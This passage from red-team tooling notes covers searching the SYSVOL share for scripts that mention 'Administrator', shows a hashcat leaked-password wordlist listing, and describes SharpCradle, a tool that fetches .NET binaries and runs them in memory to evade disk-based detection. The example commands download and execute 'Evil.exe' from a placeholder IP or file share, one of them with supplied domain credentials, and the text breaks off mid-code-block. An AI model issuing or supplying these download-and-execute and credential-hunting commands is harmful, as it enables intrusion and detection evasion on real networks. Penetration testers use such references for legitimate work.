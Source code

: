     ```
    
    Searches for batch and PowerShell scripts in the SYSVOL share that were created in 2018 and contain the word "Administrator".
    

### **Examples**

- **Search for Text Files in a Specific Directory**:This example shows the output of searching for text files in a specified directory, listing the files found along with their sizes and timestamps.
    
    ```mathematica
    Directory of C:\\Users\\EXAMPLE\\hashcat-4.2.1\\wordlists
    12/12/2018 12:00:00 AM       736.78 MB 899_have-i-been-pwned-v3--v2-excluded-_found_hash_plain.txt
    
    ```
    

## **SharpCradle**

### **Description**

SharpCradle is a specialized tool designed for penetration testers and red teams to download and execute .NET binaries directly into memory. This tool is particularly useful for executing payloads without writing to disk, thereby evading detection mechanisms that rely on disk-based scanning.

### **Functionality**

- **Web Server Download**: Downloads and executes .NET binaries from a web server.
- **File Server Download**: Supports both anonymous and authenticated downloads from file servers.
- **Inline Project File Download**: Capable of downloading .NET inline project files from the web and executing them.
- **Architecture Compatibility**: Ensures that the architecture of SharpCradle and the binary being retrieved are compatible to avoid errors.

### **Example Commands**

- **Web Server Download**:
    
    ```arduino
    SharpCradle.exe -w <https://IP/Evil.exe> <arguments to pass>
    
    ```
    
    Downloads and executes a binary from a specified web server.
    
- **File Server Download Anonymous**:
    
    ```css
    SharpCradle.exe -f \\\\IP\\share\\Evil.exe <arguments to pass>
    
    ```
    
    Downloads and executes a binary from an anonymous file server share.
    
- **File Server Download With Credentials**:
    
    ```css
    SharpCradle.exe -f -c domain username password \\\\IP\\share\\Evil.exe <arguments to pass>
    